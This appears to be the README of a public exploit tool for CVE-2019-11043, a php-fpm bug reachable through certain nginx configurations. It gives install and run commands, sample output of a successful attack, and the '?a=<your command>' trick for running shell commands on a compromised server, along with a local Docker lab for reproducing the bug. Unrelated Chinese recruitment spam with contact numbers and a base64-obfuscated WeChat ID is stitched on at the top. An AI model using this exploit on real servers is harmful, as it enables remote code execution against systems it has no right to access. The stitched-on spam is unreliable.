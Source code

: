 我是光年实验室高级招聘经理。
我在github上访问了你的开源项目，你的代码超赞。你最近有没有在看工作机会，我们在招软件开发工程师，拉钩和BOSS等招聘网站也发布了相关岗位，有公司和职位的详细信息。
我们公司在杭州，业务主要做流量增长，是很多大型互联网公司的流量顾问。公司弹性工作制，福利齐全，发展潜力大，良好的办公环境和学习氛围。
公司官网是http://www.gnlab.com,公司地址是杭州市西湖区古墩路紫金广场B座，若你感兴趣，欢迎与我联系，
电话是0571-88839161，手机号：18668131388，微信号：echo 'bGhsaGxoMTEyNAo='|base64 -D ,静待佳音。如有打扰，还请见谅，祝生活愉快工作顺利。

# PHuiP-FPizdaM

## What's this

This is an exploit for a bug in php-fpm (CVE-2019-11043). In certain nginx + php-fpm configurations, the bug is possible to trigger from the outside. This means that a web user may get code execution if you have vulnerable config (see [below](#the-full-list-of-preconditions)).

## What's vulnerable

If a webserver runs nginx + php-fpm and nginx have a configuration like

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

which also lacks any script existence checks (like `try_files`), then you can probably hack it with this sploit.

#### The full list of preconditions
1. Nginx + php-fpm, `location ~ [^/]\.php(/|$)` must be forwarded to php-fpm (maybe the regexp can be stricter, see [#1](https://github.com/neex/phuip-fpizdam/issues/1)).
2. The `fastcgi_split_path_info` directive must be there and contain a regexp starting with `^` and ending with `$`, so we can break it with a newline character.
3. There must be a `PATH_INFO` variable assignment via statement `fastcgi_param PATH_INFO $fastcgi_path_info;`. Also `SCRIPT_FILENAME` must be set using `fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;` (there might be a constant path instead of `$document_root`). At first, we thought these are always present in the `fastcgi_params` file, but it's not true.
4. No file existence checks like `try_files $uri =404` or `if (-f $uri)`. If Nginx drops requests to non-existing scripts before FastCGI forwarding, our requests never reach php-fpm. Adding this is also the easiest way to patch.
5. This exploit works only for PHP 7+, but the bug itself is present in earlier versions (see [below](#about-php5)).

## Isn't this known to be vulnerable for years?

A long time ago php-fpm didn't restrict the extensions of the scripts, meaning that something like `/avatar.png/some-fake-shit.php` could execute `avatar.png` as a PHP script. This issue was fixed around 2010.

The current one doesn't require file upload, works in the most recent versions (until the fix has landed), and, most importantly, the exploit is much cooler.

## How to run

Install it using
```
go get github.com/neex/phuip-fpizdam
```

If you get strange compilation errors, make sure you're using go >= 1.13. Run the program using `phuip-fpizdam [url]` (assuming you have the `$GOPATH/bin` inside your `$PATH`, otherwise specify the full path to the binary). Good output looks like this:

```
2019/10/01 02:46:15 Base status code is 200
2019/10/01 02:46:15 Status code 500 for qsl=1745, adding as a candidate
2019/10/01 02:46:15 The target is probably vulnerable. Possible QSLs: [1735 1740 1745]
2019/10/01 02:46:16 Attack params found: --qsl 1735 --pisos 126 --skip-detect
2019/10/01 02:46:16 Trying to set "session.auto_start=0"...
2019/10/01 02:46:16 Detect() returned attack params: --qsl 1735 --pisos 126 --skip-detect <-- REMEMBER THIS
2019/10/01 02:46:16 Performing attack using php.ini settings...
2019/10/01 02:46:40 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/01 02:46:40 Trying to cleanup /tmp/a...
2019/10/01 02:46:40 Done!
```

After this, you can start appending `?a=<your command>` to all PHP scripts (you may need multiple retries).

## Playground environment

If you want to reproduce the issue or play with the exploit locally, do the following:

1. Clone this repo and go to the `reproducer` directory.
2. Create the docker image using `docker build -t reproduce-cve-2019-11043 .`. It takes a long time as it internally clones the php repository and builds it from the source. However, it will be easier this way if you want to debug the exploit. The revision built is the one right before the fix.
2. Run the docker using `docker run --rm -ti -p 8080:80 reproduce-cve-2019-11043`.
3. Now you have http://127.0.0.1:8080/script.php, which is an empty file.
4. Run the exploit using `phuip-fpizdam http://127.0.0.1:8080/script.php`
5. If everything is ok, you'll be able to execute commands by appending `?a=` to the script: http://127.0.0.1:8080/script.php?a=id. Try multiple times as only some of php-fpm workers are infected.

## About PHP5

The buffer underflow in php-fpm is present in PHP version 5. However, this exploit makes use of an optimization used for storing FastCGI variables, [_fcgi_data_seg](https://github.com/php/php-src/blob/5d6e923/main/fastcgi.c#L186). This optimization is present only in php 7, so this particular exploit works only for php 7. There might be another exploitation technique that works in php 5.

## Credits

Original anomaly discovered by [d90pwn](https://twitter.com/d90pwn) during Real World CTF. Root clause found by me (Emil Lerner) as well as the way to set php.ini options. Final php.ini options set is found by [beched](https://twitter.com/ahack_ru).
